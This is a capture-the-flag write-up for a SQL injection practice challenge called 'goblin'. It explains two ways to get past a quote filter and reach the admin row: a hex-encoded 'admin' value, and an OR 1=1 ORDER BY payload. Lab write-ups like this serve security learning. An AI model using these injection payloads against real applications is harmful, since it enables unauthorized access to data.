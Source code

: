 ```yaml
---
custom_edit_url: null
sidebar_position: 3
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d35d9a32-55a6-4752-a4d4-955971ba3131)

We are provided with the SQL query:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no={$_GET[no]}
```

This time the application blocks quotation marks. It also does not directly insert user input into the `id` field.

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello {$result[id]}`.
2. `if($result['id'] == 'admin')`: It then checks if the `id` is set to `admin`. If yes, it prints the flag.

We want the second conditional statement to be executed.

There are two methods.

### Method 1

In order to make the result of the first query `False`, we can provide the following URI parameter:

```
?no=0
```

The resultant query then becomes:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0
```

Since no=0 is always false, the result of the `AND` operation will always be `False`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/130b241a-088d-4187-86fb-5944f1ff0503)

As expected, the `Hello {$result[id]}` message isn't printed.

In order to execute the second conditional statement, we can provide the following URI parameter:

```
?no=0 OR id=0x61646d696e
```

We are providing the Hexadecimal representation of the `admin` string.

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0 OR id=0x61646d696e
```

The result of the first conditional is already `False` and because we just the `id` field to `admin`, the flag will be printed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/f349d379-8a99-4e6f-b4fa-6c9b2c08e527)


### Method 2

If we provide the following URI parameter:

```
?no=no
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no
```

The result will always be `True` since any column (`no`) compared with itself is always true.

Next, if we add an `OR` command as follows:

```
?no=no OR 1=1 ORDER BY id;
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no OR 1=1 ORDER BY id;
```

This will print out all the rows as 1=1 is always true and anything `OR` with true is true.

![4](https://github.com/Kunull/Write-ups/assets/110326359/dbfef2c6-67a6-4d7a-9403-8a3a18bae228)

